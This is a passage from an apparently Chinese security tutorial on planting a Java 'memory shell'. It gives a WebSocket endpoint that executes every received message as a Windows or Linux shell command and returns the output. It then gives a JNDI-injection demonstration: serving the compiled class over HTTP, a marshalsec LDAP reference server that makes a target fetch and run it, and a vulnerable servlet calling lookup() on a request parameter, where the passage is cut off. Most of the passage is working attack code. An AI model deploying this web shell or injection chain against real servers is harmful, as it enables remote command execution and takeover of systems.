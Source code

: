 ```java
    private Session session;

    @OnOpen
    public void onOpen(Session session, EndpointConfig config) {
        this.session = session;
    }

    @OnMessage
    public void onMessage(String message) {
        try {
            boolean iswin = System.getProperty("os.name").toLowerCase().startsWith("windows");
            Process exec;
            if (iswin) {
                exec = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", message});
            } else {
                exec = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", message});
            }
            InputStream ips = exec.getInputStream();
            StringBuilder sb = new StringBuilder();
            int i;
            while((i = ips.read()) != -1) {
                sb.append((char)i);
            }
            ips.close();
            exec.waitFor();
            session.getBasicRemote().sendText(sb.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

可以通过JNDI注入、反序列化等将内存马打进去

下面用JNDI注入做演示：

* 编译上面的`MySocket.java`
* `MySocket.class`目录下起web服务`python -m http.server 9999`
* marshalsec开启ldap服务`java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:9999/#MySocket 8099`
* 搭建JNDI注入环境

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class Test extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String url = req.getParameter("url");
        try {
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(url);
```